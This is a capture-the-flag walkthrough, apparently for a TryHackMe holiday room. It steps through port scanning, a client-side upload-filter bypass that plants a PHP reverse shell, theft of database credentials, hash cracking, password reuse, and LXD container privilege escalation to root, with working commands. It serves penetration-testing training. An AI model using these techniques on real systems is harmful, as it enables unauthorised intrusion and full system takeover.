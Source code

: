 # The Trial Before Christmas

- Scan the machine. What ports are open?

	- `scilla port -target <TARGET_IP>`, [scilla here](https://github.com/edoardottt/scilla)
	- `80, 65000`

- What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

	- `http://<TARGET_IP>:65000`
	- `Light Cycle`

- What is the name of the hidden php page?

	- `gobuster dir -u http://<TARGET_IP>:65000 -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `uploads.php`

- What is the name of the hidden directory where file uploads are saved?

	- `scilla dir -target http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `grid`

- Bypass the filters. Upload and execute a reverse shell.

	  no answer needed

	- Navigate to `http://<TARGET_IP>:65000/uploads.php`
	- Download [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	- Change the ip from the default to yours ip.
	- Upload the file.
	- Damn. Invalid file.
	- Let's look to the validation.
	- Found `assets/js/filter.js`.
	~~~
	const filter = file => {
		if(["image/png", "image/jpeg", "image/jpg"].indexOf(file.type) < 0){
			return false;
		} else if (["png", "jpeg", "jpg"].indexOf(file.name.split(".").pop()) < 0){
			return false;
		}

		//Let's be honest -- these things are dangerous. May as well always return false Â¯\_(ãƒ„)_/Â¯
		return false;

	}
	~~~
	- This instead in `upload.js`
	~~~
	const upload = () => {
	let file = uploadInput.files[0];
	if(typeof filter === "function"){
		if(!filter(file)){
			changeMsg("Invalid File Type");
			return;
		}
	}
	~~~
	- Mhhh...
	- And here we are: `accept=".png,.jpg,.jpeg"`
	- Rename that file to `rshell.jpg.php`
	- We have to avoid the download/usage of `filter.js`.
	- We can block it using the Developers Tools (F12) or using Burp.
	- *tips* If you are having trouble, clear all the cache/data in browser.
	- Move to `http://<TARGET_IP>:65000/grid/`
	- On your machine `nc -lnvp 1234`
	- Click on the uploaded file.

- What is the value of the web.txt flag?

	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cat /var/www/web.txt`
	- `THM{**************}`

- Upgrade and stabilize your shell.

	  no answer needed
	
	- Referred to the first command of the previous task (`python3...`).

- Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

	- `cd /var/www/TheGrid`
	- `ls -alh`
	- `cd includes`
	- `cat dbauth.php`
	- `tron:I****************`

- Access the database and discover the encrypted credentials. What is the name of the database you find these in?

	- `mysql -u tron -p`
	- Enter the password.
	- `show databases;`
	- `tron`

- Crack the password. What is it?

	- `show tables;`
	- `use users;`
	- `select * from users;`
	~~~
	+----+----------+----------------------------------+
	| id | username | password                         |
	+----+----------+----------------------------------+
	|  1 | flynn    | ed*********d19a13*********	   |
	+----+----------+----------------------------------+
	~~~
	- `hash-identifier`
	- [crackstation](https://crackstation.net/)
	- `**********`

- Use su to login to the newly discovered user by exploiting password reuse.

	  no answer needed

	- Exit from mysql client with `exit`.
	- `su flynn`
	- Enter the password

- What is the value of the user.txt flag?

	- `cd ~`
	- `ls`
	- `cat flag.txt`
	- `THM{********_****_***********}`

- Check the user's groups. Which group can be leveraged to escalate privileges?

	- `id`
	- `lxd`

- Abuse this group to escalate privileges to root.

	  no answer needed

	- Check with `lxc image list` on target machine which containers are available locally.
	~~~
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	~~~
	- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true`
	- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true`
	- `lxc start CONTAINERNAME`
	- `lxc exec CONTAINERNAME /bin/sh`
	- `id`	

- What is the value of the root.txt flag?

	- `cd /mnt/root/root`
	- `THM{***********}`

	~~~
	"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
	~~~